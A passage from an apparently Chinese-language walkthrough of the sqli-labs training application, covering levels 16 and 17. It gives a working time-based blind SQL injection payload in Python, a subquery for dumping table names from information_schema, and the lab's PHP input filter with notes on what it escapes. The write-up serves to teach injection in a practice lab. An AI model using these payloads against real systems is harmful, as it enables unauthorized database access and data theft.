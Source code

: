 修改target参数可以爆出其他数据 

例如`target = "(select group_concat(table_name) from information_schema.tables where table_schema='security')"`

### 16-Blind- Time Based- Double quotes- String

改一下脚本中的闭合

```python
data = {
    'uname': f"admin\") and if(ascii(substr({target},{loc},1)){comp}{mid}, sleep(0.02), 0); -- ",
    'passwd': "123",
}


```

### 17-Update Query- Error based - String

```php
function check_input($value)
{
	if (!empty($value)) {
	// truncation (see comments)
		$value = substr($value, 0, 15);
	}

	// Stripslashes if magic quotes enabled
	if (get_magic_quotes_gpc()) {
		$value = stripslashes($value);
	}

	// Quote if not a number
	if (!ctype_digit($value)) {
		$value = "'" . mysql_real_escape_string($value) . "'";
	} else {
		$value = intval($value);
	}
	return $value;
}
```

**这次加了点过滤**

1. 如果不空，先截取`uname`的前15个字符

2. 如果 [magic_quotes_gpc](https://php.golaravel.com/info.configuration.html#ini.magic-quotes-gpc) 配置打开了，`stripslashes`删除反斜杠

3. `ctype_digit`检查字符是不是都是数字。如果不是，`mysql_real_escape_string()` 函数转义 SQL 语句中使用的字符串中的特殊字符。

   下列字符受影响：

   + \x00
   + \n
   + \r
   + \
   + '
   + "
   + \x1a
